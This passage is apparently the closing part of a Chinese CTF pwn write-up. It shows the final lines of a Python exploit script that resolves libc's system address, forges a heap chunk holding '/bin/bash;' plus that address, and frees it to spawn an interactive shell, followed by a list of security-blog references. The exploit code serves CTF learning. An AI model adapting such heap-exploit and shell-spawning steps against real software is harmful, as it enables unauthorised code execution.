 ```python
    system_addr = d.lookup('system', 'libc')
    print 'system_addr:'+hex(system_addr)

    #step 6 recover old function to system then get shell
    delete_str(0)
    create_str(0x20,'/bin/bash;'.ljust(0x18,'#')+p64(system_addr))
    #attention /bin/bash; i don`t not why add the ';'
    delete_str(1)
    sh.interactive()
    
if __name__ == '__main__':
    print 1
    main()
```



## 参考

https://blog.csdn.net/qq_31481187/article/details/73612451

https://blog.csdn.net/qq_31481187/article/details/72510875#t8

https://www.jianshu.com/p/097e211cd9eb

https://www.anquanke.com/post/id/85281

https://www.anquanke.com/post/id/85007
